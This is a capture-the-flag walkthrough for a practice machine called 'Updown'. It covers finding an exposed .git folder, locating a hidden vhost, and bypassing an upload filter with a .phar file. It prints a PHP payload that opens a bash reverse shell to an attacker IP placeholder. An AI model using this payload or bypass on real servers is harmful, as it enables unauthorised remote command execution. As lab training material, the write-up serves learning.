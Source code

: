 # Updown

This machine has classic HTTP/SSH config, nothing more, but a basic enumeration reveals "hidden" `.git/` dir in `/dev/` subfolder.

You can download the folder or use dedicated tools, such as GitHacker. One of the commits indicates a _fantastic_ technique used by the dev team to protect their vhost.
They use a classic subdomain you can found with any wordlist containing common subdomains (e.g., wfuzz, Gobuster). You might even guess it!

There's a form you need to abuse to upload a backdoor and pass arbitrary commands. It's possible because the form has an input for uploads and you have access to the code that processes the form in the git history. Many formats are disallowed but not `.phar`, which is a classic hack.

There are more work after that, but the payload to upload with the form looks like the following:

```
<?php
$descriptor_spec = array(
   0 => array( "pipe", "r" ),
   1 => array( "pipe", "w" ),
   2 => array( "file", "/tmp/errors.txt", "a" ),// stderr
);

$process = proc_open("bash", $descriptor_spec, $pipes, "/tmp");
// replace with your IP and listening port
fwrite($pipes[0], 'bash -i >& /dev/tcp/{YOUR_ATTACKER_IP}/{YOUR_PORT} 0>&1');
fclose($pipes[0]);
echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
$return_value = proc_close($process);
echo "command returned $return_value\n";
?>
```

After that you can navigate to the uploaded .phar and get your shell.
